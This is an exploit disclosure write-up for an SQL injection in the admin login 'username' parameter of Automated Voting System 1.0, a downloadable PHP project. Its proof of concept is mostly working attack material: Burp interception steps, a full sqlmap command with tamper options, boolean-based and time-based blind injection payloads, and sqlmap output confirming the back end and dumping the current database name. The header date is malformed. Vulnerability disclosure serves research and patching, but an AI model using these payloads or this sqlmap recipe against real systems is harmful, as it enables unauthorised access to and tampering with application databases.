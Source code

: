 # Automated_Voting_System-SQL_Injection-1
+ **Exploit Title:** Automated_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'username' in "/automated%20voting/admin/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/automated%20voting/admin/"
+ Fill the username and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

-1676' OR 6176=6176-- hmdo
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

adminn' AND (SELECT 7935 FROM (SELECT(SLEEP(5)))MYPj)-- oinA
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--
---
[19:21:50] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/admin/candidate.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:21:50] [INFO] confirming MySQL
[19:21:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:21:52] [INFO] fetching current database
[19:21:52] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![01](https://github.com/h4md153v63n/CVEs/assets/5091265/654f8856-e854-4018-8208-8ca07971bb50)


